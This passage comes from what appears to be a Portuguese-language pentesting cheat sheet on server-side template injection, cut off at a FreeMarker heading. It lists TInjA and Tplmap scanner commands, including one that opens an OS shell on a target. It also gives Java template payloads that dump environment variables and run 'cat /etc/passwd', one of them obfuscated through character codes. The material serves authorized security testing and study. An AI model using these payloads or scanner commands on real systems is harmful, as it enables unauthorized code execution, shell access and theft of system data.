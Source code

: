 ### [TInjA](https://github.com/Hackmanit/TInjA)

um scanner eficiente de SSTI + CSTI que utiliza políglotas inovadores
```bash
tinja url -u "http://example.com/?name=Kirlia" -H "Authentication: Bearer ey..."
tinja url -u "http://example.com/" -d "username=Kirlia"  -c "PHPSESSID=ABC123..."
```
### [Tplmap](https://github.com/epinna/tplmap)
```python
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```
### [Tabela de Injeção de Template](https://github.com/Hackmanit/template-injection-table)

uma tabela interativa contendo os poliglotas de injeção de template mais eficientes junto com as respostas esperadas dos 44 motores de template mais importantes.

## Exploits

### Genérico

Nesta **wordlist** você pode encontrar **variáveis definidas** nos ambientes de alguns dos motores mencionados abaixo:

* [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)

### Java

**Java - Injeção básica**
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```
**Java - Recuperar as variáveis de ambiente do sistema**
```java
${T(java.lang.System).getenv()}
```
**Java - Recuperar /etc/passwd**
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
### FreeMarker (Java)
